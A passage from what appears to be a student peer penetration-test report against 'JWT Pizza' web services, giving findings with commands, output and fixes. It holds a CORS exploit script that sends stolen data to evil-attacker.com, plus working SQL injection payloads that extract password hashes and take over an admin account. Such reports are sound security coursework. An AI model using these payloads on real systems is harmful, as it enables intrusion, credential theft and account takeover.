<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">3</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">The API reflects any <code>Origin</code> header verbatim in <code>Access-Control-Allow-Origin</code> with <code>Access-Control-Allow-Credentials: true</code> on all endpoints. Preflight <code>OPTIONS</code> requests also reflect the evil origin and approve all methods (GET, POST, PUT, DELETE). A malicious website can make fully authenticated cross-origin requests on behalf of any logged-in user — reading orders, profile, JWT token, or performing actions like placing orders or deleting franchises.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Origin reflection on authenticated endpoint:

```bash
curl -sI \
  "https://pizza-service.marcosotomarino.com\
/api/order" \
  -H "Origin: https://evil-attacker.com" \
  -H "Authorization: Bearer $TOKEN"
```

```
access-control-allow-origin: https://evil-attacker.com
access-control-allow-methods:
  GET, POST, PUT, DELETE, OPTIONS
access-control-allow-headers:
  Content-Type, Authorization
access-control-allow-credentials: true
```

Preflight OPTIONS request also approved for evil origin:

```
HTTP/2 200
access-control-allow-origin: https://evil-attacker.com
access-control-allow-credentials: true
```

Exploitation scenario — attacker hosts:

```html
<script>
  fetch(
    'https://pizza-service.marcosotomarino.com\
/api/order',
    {
      credentials: 'include',
      headers: {
        Authorization: 'Bearer ' + stolenToken,
      },
    }
  )
    .then((r) => r.json())
    .then((data) => {
      fetch('https://evil-attacker.com/collect', {
        method: 'POST',
        body: JSON.stringify(data),
      });
    });
</script>
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Configure CORS to allow only the production frontend origin (<code>https://pizza.marcosotomarino.com</code>). Remove wildcard origin reflection. Maintain an explicit allowlist if multiple origins are needed.</td></tr>
</table>

#### Attack 7 — SQL Injection via LIMIT/OFFSET Parameters

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A03 Injection</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">2</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">The <code>page</code> query parameter on <code>GET /api/order</code> and <code>GET /api/franchise</code> is interpolated into SQL LIMIT/OFFSET clauses via template literals without validation. Non-numeric values cause "Undeclared variable: NaN" errors with stack traces. A negative page value (<code>-1</code>) causes a SQL syntax error revealing the LIMIT/OFFSET structure (<code>near '-20,10'</code>). While JavaScript's type coercion to NaN prevents direct UNION-based extraction, the error messages leak internal file paths and confirm the query pattern. This is a separate injection point from Attack 1.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

SQL injection string in page parameter:

```bash
curl -s \
  "https://pizza-service.marcosotomarino.com\
/api/order?page=1%3B%20SELECT%201" \
  -H "Authorization: Bearer $TOKEN"
```

```json
{
  "message": "Undeclared variable: NaN",
  "stack": "Error: ...at DB.getOrders
    (/app/src/database/database.js:223:33)\n
    at async
    /app/src/routes/orderRouter.js:117:14"
}
```

Negative page reveals LIMIT/OFFSET structure:

```json
{
  "message": "...near '-20,10' at line 1"
}
```

Same vulnerability on franchise endpoint (no auth required):

```json
{
  "message": "Undeclared variable: NaN",
  "stack": "Error: ...at DB.getFranchises
    (/app/src/database/database.js:340:35)\n
    at async
    /app/src/routes/franchiseRouter.js:83:32"
}
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Parse <code>page</code> with <code>parseInt()</code> and validate it is a positive integer before use. Use parameterized queries for LIMIT and OFFSET values. Return generic error messages without stack traces.</td></tr>
</table>

#### Attack 8 — SQL Injection: Full Database Extraction

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A03 Injection</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">4</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Extending Attack 1's SQL injection in <code>PUT /api/user/:userId</code>, used a nested subquery technique to bypass MySQL's "can't specify target table for update in FROM clause" restriction. Successfully extracted: (1) the full database schema (8 tables), (2) bcrypt password hashes for all 3 privileged accounts (admin + franchisee), (3) complete user role mapping for all 22 users, and (4) email addresses for all users. With the password hashes, an offline brute-force attack could recover plaintext passwords for the admin accounts.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Extract database schema — all table names:

```bash
curl -s -X PUT \
  "https://pizza-service.marcosotomarino.com\
/api/user/22" \
  -H 'Content-Type: application/json' \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"email":"pentest3@test.com",
    "name":"x'"'"',
    name=(SELECT GROUP_CONCAT(
      table_name SEPARATOR '"'"'|'"'"')
      FROM information_schema.tables
      WHERE table_schema=database())
    WHERE id=22-- "}'
```

Response — full schema:

```json
{
  "user": {
    "id": 22,
    "name": "auth|dinerOrder|franchise|menu
      |orderItem|store|user|userRole"
  }
}
```

Extract all user roles — identify admin accounts:

```json
{
  "user": {
    "id": 22,
    "name": "1:diner|2:diner|3:diner
      |3:admin|2:admin|2:franchisee|..."
  }
}
```

Admin accounts identified: User 2 (admin + franchisee) and User 3 (admin).

Extract password hash — user 1:

```json
{ "user": { "id": 22, "name": "$2b$10$myn0NQ5XGs7c..." } }
```

Extract password hash — user 2 (admin):

```json
{ "user": { "id": 22, "name": "$2b$10$.6Ty/Gi07c6L..." } }
```

Extract password hash — user 3 (admin):

```json
{ "user": { "id": 22, "name": "$2b$10$ojmETXR9f/96..." } }
```

Technique: nested subquery bypasses MySQL self-reference restriction:

```sql
UPDATE user SET name='x',
  name=(SELECT x FROM
    (SELECT password AS x
     FROM user WHERE id=1) AS tmp)
  WHERE id=22--
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Use parameterized queries (<code>?</code> placeholders) in <code>database.js:updateUser()</code>. This single fix blocks all SQL injection variants.</td></tr>
</table>

#### Attack 9 — Frontend Admin Dashboard Disclosure

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A01 Broken Access Control</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">2</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">The frontend is a React SPA served from CloudFront/S3. All routes, including <code>/admin-dashboard</code>, serve the same <code>index.html</code> with the full JavaScript bundle. Any unauthenticated user can navigate directly to <code>https://pizza.marcosotomarino.com/admin-dashboard</code> and the browser renders the admin UI components, revealing admin interface structure, API endpoint patterns, and management schemas. Additionally, <code>robots.txt</code> explicitly lists <code>/admin-dashboard/</code> and <code>/docs/</code> as disallowed, advertising these sensitive paths to attackers.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Admin dashboard accessible without authentication:

```bash
curl -s \
  "https://pizza.marcosotomarino.com\
/admin-dashboard" | head -15
```

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>JWT Pizza</title>
    <script type="module" crossorigin src="/assets/index-CsPcqWP-.js"></script>
    <link rel="stylesheet" crossorigin href="/assets/index-CHiGweTW.css" />
  </head>
  ...
</html>
```

robots.txt advertises sensitive paths:

```
User-agent: *
Disallow: /admin-dashboard/
Disallow: /docs/
```

Version disclosure:

```json
{ "version": "20000101.000000" }
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">1) Add a React route guard component that checks auth state and admin role before rendering admin routes. 2) Remove sensitive paths from <code>robots.txt</code>. 3) Consider server-side rendering or an auth gateway for admin routes.</td></tr>
</table>

#### Attack 10 — Full Kill Chain: SQLi to Admin Takeover to Franchise Creation

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A03 Injection / A01 Broken Access Control</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">4</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Demonstrated a complete attack chain from a self-registered diner account to full admin control. Used the SQL injection vulnerability to: (1) enumerate user roles and identify admin accounts (user 2 = admin + franchisee), (2) overwrite the admin's email and password via SQLi by copying pentest3's known password hash onto user 2, and (3) log in as the admin. With the admin JWT, created a new franchise ("Pwned Pizza", ID 4) and added a store ("Hacker HQ", store ID 2) — proving full administrative control over the business.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Kill chain overview:

```
Register diner account (pentest3, ID 22)
    -> SQLi: Extract userRole table
       -> identify user 2 as admin
    -> SQLi: Extract user 2's password hash
    -> SQLi: Overwrite user 2's email +
       password with known values
    -> Login as user 2 -> receive admin JWT
    -> Create franchise "Pwned Pizza"
       + store "Hacker HQ"
```

Step 1 — Overwrite admin credentials via SQLi:

```bash
curl -s -X PUT \
  "https://pizza-service.marcosotomarino.com\
/api/user/22" \
  -H 'Content-Type: application/json' \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"email":"pentest3@test.com",
    "name":"x'"'"',
    email='"'"'admin-pwned@test.com'"'"',
    password=(SELECT x FROM
      (SELECT password AS x
       FROM user WHERE id=22) AS tmp)
    WHERE id=2-- "}'
```

Step 2 — Login as admin:

```bash
curl -s -X PUT \
  "https://pizza-service.marcosotomarino.com\
/api/auth" \
  -H "Content-Type: application/json" \
  -d '{"email":"admin-pwned@test.com",
       "password":"pentest123"}'
```

Response (full admin JWT):

```json
{
  "user": {
    "id": 2,
    "name": "x",
    "email": "admin-pwned@test.com",
    "roles": [
      { "role": "diner" },
      { "role": "admin" },
      { "objectId": 1, "role": "franchisee" },
      { "objectId": 2, "role": "franchisee" }
    ]
  },
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
}
```

Step 3 — Create franchise and store as admin:

```json
{ "name": "Pwned Pizza",
  "admins": [
    { "email": "pentest3@test.com", "id": 22 }
  ], "id": 4 }
{ "id": 2, "franchiseId": 4, "name": "Hacker HQ" }
```

Final state:

```json
{
  "franchises": [
    { "id": 1, "name": "My Pizza Franchise", "stores": [{ "id": 1, "name": "Main Store" }] },
    { "id": 4, "name": "Pwned Pizza", "stores": [{ "id": 2, "name": "Hacker HQ" }] },
    { "id": 2, "name": "SLC", "stores": [] }
  ]
}
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Fix the root cause: parameterized queries in <code>database.js:updateUser()</code>. Without SQL injection, this entire chain is impossible. Additionally, admin credential changes should require re-authentication or MFA.</td></tr>
</table>

### Peer 2 (Marco Sotomarino) Attack on Peer 1 (Jay Ellis)

#### Attack 1 — Broken Access Control (Admin Endpoint)

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza.urjellis.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A01 Broken Access Control</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">0</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Attempted to perform an administrative action by replaying a <code>POST /api/franchise</code> request using a normal user JWT token in Burp Repeater. The request originally succeeded with an admin token, but when the token was replaced with a normal user token, the server correctly rejected the request.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">


</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">No corrections required. The backend correctly enforces role-based access control and prevents unauthorized users from executing admin-level operations.</td></tr>
</table>

#### Attack 2 — Client-Side Price Manipulation

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza.urjellis.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A04 Insecure Design / Input Validation</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">0</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Modified the <code>price</code> field in the order request body to <code>0.001</code> using Burp Repeater. The request was accepted by the server; however, the response showed that the backend recalculated and enforced the correct price instead of using the client-provided value.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">


</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">No corrections required. The backend correctly validates pricing by ignoring client-side values and recalculating prices server-side.</td></tr>
</table>

#### Attack 3 — Unauthenticated Request

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza.urjellis.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A07 Identification and Authentication Failures</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">0</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Removed the <code>Authorization</code> header using Burp Repeater to simulate an unauthenticated request. The server rejected the request with a <code>401 Unauthorized</code> response, indicating that authentication is properly required.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">


</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">No corrections required. The endpoint correctly enforces authentication and prevents unauthenticated access.</td></tr>
</table>

#### Attack 4 — Invalid Menu ID (Improper Error Handling)

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza.urjellis.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A04 Insecure Design / Improper Input Handling</td></tr>
